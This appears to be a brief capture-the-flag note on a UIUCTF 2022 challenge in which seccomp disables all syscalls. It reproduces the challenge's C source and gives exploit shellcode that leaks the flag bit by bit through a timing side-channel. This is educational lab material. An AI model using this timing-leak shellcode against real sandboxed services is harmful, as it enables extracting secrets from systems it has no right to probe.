 ### All System Calls disabled
So, there was a challenge in [UIUCTF 2022](https://2022.uiuc.tf/) where all syscalls were disabled.
```
#include <fcntl.h>
#include <seccomp.h>
#include <sys/mman.h>
#include <unistd.h>

// gcc no_syscalls_allowed.c -lseccomp -o no_syscalls_allowed
// socat tcp-l:1337,reuseaddr,fork exec:./no_syscalls_allowed

char flag[100];

void main(int argc, char *argv[]) {
  int fd = open("/flag.txt", O_RDONLY);
  read(fd, flag, sizeof flag);

  void *code = mmap(NULL, 0x1000, PROT_WRITE | PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  read(STDIN_FILENO, code, 0x1000);

  if (seccomp_load(seccomp_init(SCMP_ACT_KILL)) < 0) return;

  ((void (*)())code)();
}

```
[This](https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/UIUCTF22/no-syscalls-allowed.c ) is an awesome writeup for this challenge. The basic idea is to leak bytes, one bit at a time. If the bit is zero, the shellcode should exit immediately. If the bit is one, shellcode should hang for a while. The shellcode used to find the bit is 
```
asm(f'''mov al, BYTE PTR ds:[{register}+{str(reg_offset)}];
    xor r11, r11;
    shr al, ''' + str(bit) +''';
    shl al, 7;
    shr al, 7;
    imul rax, 0x20000000;
    loop_start:
    cmp rax, r11;
    je loop_finished;
    inc r11;
    imul ebx, 0x13;
    jmp loop_start;
    loop_finished:
    ''')
```

